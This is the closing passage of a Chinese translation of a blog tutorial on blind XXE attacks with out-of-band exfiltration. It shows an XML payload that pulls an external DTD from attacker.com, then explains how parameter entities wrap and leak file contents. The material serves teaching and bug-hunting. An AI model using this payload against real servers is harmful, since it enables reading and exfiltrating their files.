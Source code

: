 对应用的请求：

```plain
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&content;</data>
```

## 解释

首先，调用**%dtd**,服务器向**[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)**发出请求，下载玩 dtd 之后，解析器加载 dtd，然后加载%file，被**%start;** and **%end;**包装在**CDATA**中的参数实体。最后，**%all**存放在%start; 到 %end 捕获到的内容。一个通用的实体内容正在被定义，该内容可以作为对攻击者响应的一部分。这个场景是结果是反映在响应中的，。所以在对盲 XXE 进行盲注时，请使用 OAST 的语法。

这就是这篇博客文章的所有内容，期待在下一篇文章与你相遇。

在那之前，祝福你快乐地挖掘漏洞。

## 参考链接

-   [https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)
-   [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
-   [https://dzone.com/articles/xml-external-entity-xxe-limitations](https://dzone.com/articles/xml-external-entity-xxe-limitations)

> 本文为翻译文章，原文链接：[https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/](https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/)
